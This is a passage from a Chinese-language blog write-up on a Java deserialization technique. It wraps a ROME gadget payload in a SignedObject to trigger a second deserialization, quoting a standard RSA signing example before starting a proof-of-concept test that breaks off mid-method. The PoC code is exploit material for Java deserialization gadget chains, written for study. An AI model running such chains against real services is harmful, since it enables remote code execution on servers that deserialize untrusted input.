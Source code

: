 3. 最后一个问题就是 `SignedObject` 构造函数中的后两个参数，怎么传？`Signature` 应该是密码学中的签名，那么这里就贴一下廖学峰的签名算法了：

    > https://liaoxuefeng.com/books/java/security/sign/：
    > ```java
    > import java.nio.charset.StandardCharsets;
    > import java.security.*;
    > import java.util.HexFormat;
    > 
    > public class Main {
    >     public static void main(String[] args) throws GeneralSecurityException {
    >         // 生成RSA公钥/私钥:
    >         KeyPairGenerator kpGen = KeyPairGenerator.getInstance("RSA");
    >         kpGen.initialize(1024);
    >         KeyPair kp = kpGen.generateKeyPair();
    >         PrivateKey sk = kp.getPrivate();
    >         PublicKey pk = kp.getPublic();
    > 
    >         // 待签名的消息:
    >         byte[] message = "Hello, I am Bob!".getBytes(StandardCharsets.UTF_8);
    > 
    >         // 用私钥签名:
    >         Signature s = Signature.getInstance("SHA1withRSA");
    >         s.initSign(sk);
    >         s.update(message);
    >         byte[] signed = s.sign();
    >         System.out.println("signature: " + HexFormat.of().formatHex(signed));
    > 
    >         // 用公钥验证:
    >         Signature v = Signature.getInstance("SHA1withRSA");
    >         v.initVerify(pk);
    >         v.update(message);
    >         boolean valid = v.verify(signed);
    >         System.out.println("valid? " + valid);
    >     }
    > }
    > ```

4. 那么到这里，PoC 也就可以出来了：
    ```java
    @Test
    public void testRome_doubleSer() throws Exception{
        // 1. 照葫芦画瓢
        KeyPairGenerator kpGen = KeyPairGenerator.getInstance("RSA");
        kpGen.initialize(1024);
        KeyPair kp = kpGen.generateKeyPair();
        PrivateKey sk = kp.getPrivate();
        Signature s = Signature.getInstance("SHA1withRSA");
        // 构造 sink
        SignedObject signedObject = new SignedObject((Serializable) getRomeObj(), sk, s);
    
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        // 注意这里是 JdbcRowSetImpl.class，JdbcRowSet 接口中没有定义：
        /**{@link com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()}**/
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(SignedObject.class, signedObject));
    